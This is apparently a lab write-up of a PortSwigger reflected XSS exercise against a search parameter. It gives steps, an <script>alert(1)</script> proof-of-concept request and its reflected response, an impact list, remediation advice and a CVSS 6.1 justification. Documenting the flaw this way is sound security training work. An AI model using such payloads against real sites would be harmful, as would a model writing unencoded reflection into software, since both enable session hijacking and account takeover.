

# Reflected Cross-Site Scripting (XSS) via Unsanitized Search Parameter

## Overview

The application's search component is vulnerable to Reflected Cross-Site Scripting (XSS). User input submitted to the search filter is immediately reflected in the HTML response without undergoing validation, sanitization, or output encoding.

Since the system fails to sanitize input before rendering it on the page, an attacker can construct a payload containing arbitrary JavaScript, which will execute in the browser of any user who loads the malicious query URL. This allows the execution of malicious scripts within the victim's session context, potentially enabling cookie theft, session hijacking, or automated client-side actions.

---

## Exploitation Steps

1. Head to the application's search interface.
2. Locate the query input box.
3. Input the following test script payload:

```html
<script>alert(1)</script>
```

4. Submit the search query.
5. Note that the browser receives the input exactly as submitted in the HTML source code.
6. The browser interprets and executes the reflected script block.
7. Verify that the JavaScript alert dialog displays, confirming the reflected XSS vulnerability.

---

## Proof of Concept

### Payload

```html
<script>alert(1)</script>
```

### Vulnerable Request

```http
GET /?search=<script>alert(1)</script> HTTP/2
Host: vulnerable-application
```

### Response Output

```html
<h1>Search results for <script>alert(1)</script></h1>
```

### Script Execution

```javascript
alert(1)
```

The browser executes the script because the application reflects the search term parameter directly into the page source without encoding the HTML characters.

---

## Screenshots


### Screenshot 2 – Successful Script Execution

**Description:**

The browser runs the reflected JavaScript and opens a dialog box, confirming Reflected XSS.


---

### Screenshot 3 – Lab Solved

**Description:**

PortSwigger confirms that the Reflected XSS challenge has been successfully completed.



---

## Severity and Impact

* Execution of untrusted scripts in user browser sessions.
* Theft of authentication cookies and session identifiers.
* User credential harvesting using injected fake forms.
* Content modification and website defacement.
* Execution of actions on behalf of the victim.
* Risk of full account takeover.

---

## Remediation Guidelines

1. Implement context-aware output encoding for all user-supplied data before rendering.
2. Validate and filter incoming parameters using strict character controls.
3. Rely on secure rendering engines that auto-escape variables by default.
4. Implement a robust Content Security Policy (CSP) header.
5. Do not write raw user inputs directly into HTML templates.
6. Conduct periodic code audits and dynamic application scans.

---

## CVSS Rating

**CVSS v3.1 Score:** 6.1 (Medium)

### Vector

```text
CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N
```

---

## CVSS Justification Details

### Attack Vector

Network (N) – The exploit can be delivered remotely via a malicious link.

### Attack Complexity

Low (L) – Execution requires no special system configurations or timing conditions.

### Privileges Required

None (N) – The search endpoint is open to the public.

### User Interaction

Required (R) – A user must click a link or visit the page containing the payload.

### Scope

Changed (C) – The script executes within the victim's client-side browser environment.

### Confidentiality Impact

Low (L) – The script can access cookies and session data stored in the browser.

### Integrity Impact

Low (L) – The script can alter the presentation and behavior of the webpage.

### Availability Impact

None (N) – The vulnerability does not affect service uptime or availability.

---

## References

* OWASP Cross Site Scripting Prevention Cheat Sheet
* OWASP XSS Filter Evasion Cheat Sheet
* PortSwigger Web Security Academy – Reflected XSS into HTML Context with Nothing Encoded
